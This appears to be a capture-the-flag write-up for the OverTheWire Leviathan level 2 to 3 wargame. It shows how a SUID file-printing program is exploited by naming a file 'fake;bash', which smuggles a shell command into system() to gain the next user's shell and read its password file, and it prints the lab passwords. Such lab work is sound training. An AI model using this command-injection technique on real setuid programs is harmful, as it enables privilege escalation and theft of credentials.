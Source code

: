 # Leviathan Level 2 -> 3

## 🧠 Goal  

Log into Leviathan 2 and find the password for Leviathan 3.  

---

## 🔐 Credentials  

- **Username:** `leviathan2`  
- **Host:** `leviathan.labs.overthewire.org`  
- **Port:** `2223` (SSH)  
- **Password:** `NsN1HwFoyN`  

---

## 🖥️ Commands Used  

```bash
# connect to leviathan2
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
#try to uses SUID premission to access the pass file 
leviathan2@leviathan:~$ ls -l
total 16
-r-sr-x--- 1 leviathan3 leviathan2 15072 Aug 15 13:17 printfile
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x80490ed, 2, 0xffffd444, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                       = -1
puts("You cant have that file..."You cant have that file...
)                                = 27
+++ exited (status 1) +++

leviathan2@leviathan:~$ mktemp -d /tmp/amro.XXX
/tmp/amro.BWn
leviathan2@leviathan:~$ touch /tmp/amro.BWn/test
leviathan2@leviathan:~$ ltrace ./printfile /tmp/amro.BWn/test
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/tmp/amro.BWn/test", 4)                                   = 0
snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat /tmp/amro.BWn/test" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```
access("/tmp/amro.BWn/test", 4) = 0 <br>
snprintf("/bin/cat /tmp/amro.BWn/test", 511, "/bin/cat %s", "/tmp/amro.BWn/test") = 27 <br>
geteuid() = 12002 <br> 
geteuid() = 12002 <br>
setreuid(12002, 12002) = 0 <br>
system("/bin/cat /tmp/amro.BWn/test" <no return ...> <br>

listen to me and answer: <br>
access() checks RUID if returns 0 mean that this ruid (leviathan2) have access setreuid(12002,12002) makes both IDs = leviathan3, so the process runs entirely as leviathan3, then system performs the command cat to print the content of the file but the tricks come here the attacker could insert ; in the name of that file lets say "fake;bash" that has gained access before and since ; is command seprator then cat/tmp/amro.BWN/fake will execute or get error it doesn`t matter,then bash command will execute and since i am leviathan 3 now it will open the bash of leviathan3 then i can traverse to the passowrd file

```bash
leviathan2@leviathan:~$ touch /tmp/amro.BWn/"fake;bash"
leviathan2@leviathan:~$ ./printfile /tmp/amro.BWn/"fake;bash"
/bin/cat: /tmp/amro.BWn/fake: Permission denied
leviathan3@leviathan:~$ whoami
leviathan3
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
f0n8h2iWLP

```
___

## 💡 Theory
```bash
TOCTOU (Time Of Check to Time Of Use) vulnerability
access() is a unction in C lybrary
in a normal program , access() is fine
in a SUID program , its dangerous
-> access() checks with the real UID 
-> but the program later opens the file with the effective UID (the up privileged one)
   in our case : RUID : leviathan2
	       : EUID : leviathan3
```

```bash
; in Linux shells
The semicolon (;) is a command separator in shells like bash and sh.
It means: “Run the first command, then run the second command, regardless of whether the first succeeds or fails.”
echo "Hello"; echo "World" 
hello
world
another example :
/bin/cat/fake;bash
"hi i am the fake text"
then -> bash will execute

Key difference from && and ||
; → run both, always.
&& → run second only if first succeeds (exit code = 0).
|| → run second only if first fails (exit code ≠ 0).
```

___

## 📤 Output
```bash
f0n8h2iWLP
```
